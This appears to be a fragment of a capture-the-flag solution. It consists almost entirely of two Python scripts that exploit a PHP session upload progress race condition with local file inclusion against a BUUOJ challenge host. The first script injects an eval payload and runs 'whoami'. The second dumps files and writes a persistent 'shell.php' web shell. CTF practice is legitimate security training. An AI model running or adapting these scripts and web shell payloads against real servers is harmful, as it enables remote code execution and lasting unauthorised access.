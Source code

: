 **脚本**

```python
# coding=utf-8
import io
import requests
import threading

sessid = 'peri0d'
data = {"cmd": "system('whoami');"}


def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post('http://7caa8dd6-84a1-4c67-b3b3-b3abb1d82220.node4.buuoj.cn:81/',
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                            files={'file': ('peri0d.txt', f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
        resp = session.post('http://7caa8dd6-84a1-4c67-b3b3-b3abb1d82220.node4.buuoj.cn:81/?file=/tmp/sess_' + sessid,
                            data=data)
        if 'peri0d.txt' in resp.text:
            print(resp.text)

            event.clear()
        else:
            print('++++++++++++++++')


if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()

```



```python
import io
import sys
import requests
import threading

sessid = 'Qftm'


def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://7caa8dd6-84a1-4c67-b3b3-b3abb1d82220.node4.buuoj.cn:81/',
            data={
                "PHP_SESSION_UPLOAD_PROGRESS": "<?php system('cat *');fputs(fopen('shell.php','w'),'<?php @eval($_POST[mtfQ])?>');?>"},
            files={"file": ('q.txt', f)},
            cookies={'PHPSESSID': sessid}
        )
```